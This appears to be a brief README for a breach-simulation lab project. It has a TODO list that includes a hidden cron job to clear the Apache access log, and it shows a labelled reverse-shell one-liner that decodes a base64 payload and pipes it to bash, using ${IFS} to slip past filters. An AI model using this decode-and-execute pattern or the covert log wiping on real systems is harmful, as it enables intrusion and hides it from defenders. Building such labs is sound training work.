 # BAU-project
## TODO (Zeyad)
1. (Hidden) Cron job to clean /var/log/apache2/access.log
2. SSH password auhentication
3. SSH keys for users
4. Add omar webserver files
5. Finally (Test everything)

### PakageDownloader.c
```bash
# Reverse shell command
echo${IFS}<BASE64-Encoded-Payload>|base64${IFS}-d|bash
```
## Breach similation
```
https://pastebin.com/UycbfwRP
```
### Vagrant file
- This is temporary until everything is finished then i will create a clean public repository with this file as a release 
```
https://drive.google.com/file/d/1SqLbSoCzwea5ZSVQobo-JHz9yslkiKlE/view?usp=sharing
```
